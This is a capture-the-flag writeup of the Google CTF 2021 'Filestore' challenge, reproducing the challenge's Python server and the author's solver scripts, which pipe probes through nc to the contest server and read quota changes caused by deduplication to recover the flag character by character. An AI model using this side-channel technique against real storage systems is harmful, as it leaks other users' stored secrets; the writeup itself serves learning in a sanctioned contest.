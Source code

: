 ```yaml
---
title: 💾 Google CTF 2021 - Filestore Challenge Writeup
author: Ashiq Amien
date: 2021-07-20 14:00:00 +0200
categories: [CTF, Misc]
tags: ctf
---
```



Filestore was a miscellaneous challenge from the [Google CTF](https://capturetheflag.withgoogle.com/). We are given the following Python file:

```python
import os, secrets, string, time
from flag import flag


def main():
    # It's a tiny server...
    blob = bytearray(2**16)
    files = {}
    used = 0

    # Use deduplication to save space.
    def store(data):
        nonlocal used
        MINIMUM_BLOCK = 16
        MAXIMUM_BLOCK = 1024
        part_list = []
        while data:
            prefix = data[:MINIMUM_BLOCK]
            ind = -1
            bestlen, bestind = 0, -1
            while True:
                ind = blob.find(prefix, ind+1)
                if ind == -1: break
                length = len(os.path.commonprefix([data, bytes(blob[ind:ind+MAXIMUM_BLOCK])]))
                if length > bestlen:
                    bestlen, bestind = length, ind

            if bestind != -1:
                part, data = data[:bestlen], data[bestlen:]
                part_list.append((bestind, bestlen))
            else:
                part, data = data[:MINIMUM_BLOCK], data[MINIMUM_BLOCK:]
                blob[used:used+len(part)] = part
                part_list.append((used, len(part)))
                used += len(part)
                assert used <= len(blob)

        fid = "".join(secrets.choice(string.ascii_letters+string.digits) for i in range(16))
        files[fid] = part_list
        return fid

    def load(fid):
        data = []
        for ind, length in files[fid]:
            data.append(blob[ind:ind+length])
        return b"".join(data)

    print("Welcome to our file storage solution.")

    # Store the flag as one of the files.
    store(bytes(flag, "utf-8"))

    while True:
        print()
        print("Menu:")
        print("- load")
        print("- store")
        print("- status")
        print("- exit")
        choice = input().strip().lower()
        if choice == "load":
            print("Send me the file id...")
            fid = input().strip()
            data = load(fid)
            print(data.decode())
        elif choice == "store":
            print("Send me a line of data...")
            data = input().strip()
            fid = store(bytes(data, "utf-8"))
            print("Stored! Here's your file id:")
            print(fid)
        elif choice == "status":
            print("User: ctfplayer")
            print("Time: %s" % time.asctime())
            kb = used / 1024.0
            kb_all = len(blob) / 1024.0
            print("Quota: %0.3fkB/%0.3fkB" % (kb, kb_all))
            print("Files: %d" % len(files))
        elif choice == "exit":
            break
        else:
            print("Nope.")
            break

try:
    main()
except Exception:
    print("Nope.")
time.sleep(1)
```

## Problem overview

Looking at the above script, we can see that we can store different chunks of data up to 64 kb. Given a file id, `fid`, we can reload the data. We can also check the status of server to see how much space was used and how many files are stored. 

The important thing to notice is to see how the data is stored and how we can save space, as noted with the comment `Use deduplication to save space`. This means that we check if the first 16 bytes of our data is already stored on the server, and then point to the longest matching prefix up to 1024 bytes. So, for example, if our server stores `[31337test42069]`, we can see that inserting the string `7test4` won't increase the usage of the server since we'll point to the beginning of the match and indicate that the length of the match is 6, from  `part_list.append((used, len(part)))`.

### Deducing the flag characters

We see that the flag is stored as the script is run on the server, leaving the server with usage `Quota: 0.026kB/64.000kB`. We know that the flag is of the form `CTF{__...__}`, meaning submitting the characters `C`, `T`, `F`, `{` or `}` won't adjust the usage of the server. We can follow the same pattern to figure out the other characters as well. For this I used the following script:

```python
print("status")
for s in string.ascii_letters+string.digits+"!@#$%^&*()_{}|~`/<>;:":
	print("store")
	print(s)	
	print("status")
print("status")
print("exit")
```

Running the script with `python script.py| nc <ctfserver> 1337 -i 1 | tee fileout.txt`, we can get the contents of the server output, including all of the different statuses between submitting different strings. To do this, check if the status does not change in between submissisons, and note the index to figure out which characters are inside the flag: 

```python
import string

s = string.ascii_letters+string.digits+"!@#$%^&*()_{}|~`/<>;:"

with open("fileout.txt","r") as fi:
    id = []
    for ln in fi:
        if ln.startswith("Quota:"):
            id.append(ln)

charlist = []
for i in range(len(id)-2):
	if id[i] == id[i+1]:
		charlist.append(s[i])
		print("found flag character: " + s[i])


print(charlist)
print(len(charlist))
```

This gives us the following set of flag characters: `['c', 'd', 'f', 'i', 'n', 'p', 't', 'u', 'C', 'F', 'M', 'R', 'T', 'X', '0', '1', '3', '4', '_', '{', '}']`. It looks right, since the letters `C`, `T`, `F`, `{` and `}`  show up. 

### Iterating the flag

Using our character list, we can start iterating the flag by seeing which character appended to `CTF{` does not increase the usage. 

```python
flaglist = ['C','T','F','{']

for i in range(16):
	os.system('python charloop.py ' + "".join(flaglist) +' | nc filestore.2021.ctfcompetition.com 1337 -i 1 | tee fileout'+str(i)+'.txt')
	with open("fileout"+str(i)+".txt","r") as fi:
	    id = []
	    for ln in fi:
		if ln.startswith("Quota:"):
		    print(ln)    	
	for i in range(len(id)-2):
		if id[i] == id[i+1]:
			flaglist.append(charlist[i+1])
			print("found flag character: " + charlist[i+1])
	print(flaglist)	
	print("".join(flaglist))
```


This iterates the first 16 characters of the flag, `CTF{CR1M3_0f_d3d`. After that, we continually match the flag since the prefix is only checked up to the first 16 chars, so any appended character to our half flag is picked up as valid. Since we know the flag ends with `}`, we can iterate backwards to find the rest of the flag.

```python
secondflaglist = ['}']

for i in range (10):
	os.system('python charloop2.py ' + "".join(secondflaglist) +' | nc filestore.2021.ctfcompetition.com 1337 -i 1 | tee secondblockfileout'+str(i)+'.txt')
	with open("secondblockfileout"+str(i)+".txt","r") as fi:
	    id = []
	    for ln in fi:
		if ln.startswith("Quota:"):
		    id.append(ln)
		    print(ln)    	
	for i in range(len(id)-2):
		if id[i] == id[i+1]:
			secondflaglist.insert(0,charlist[i])
			print("found flag character: " + charlist[i])
	print(secondflaglist)	
	print("".join(secondflaglist))
```

This gives us the remainder of the flag `up1ic4ti0n}`, and we can piece it together to submit the final flag :) 


Overall it was a tough CTF, this was the only challenge I could solve. My main takeaway is from the challenge is that I need to bump up my scripting skills, since the [actual solution](https://github.com/google/google-ctf/blob/master/2021/quals/misc-filestore/challenge/solver.py) is *much* cleaner than my solution. Big thanks to Google and the author of the challenge! :)


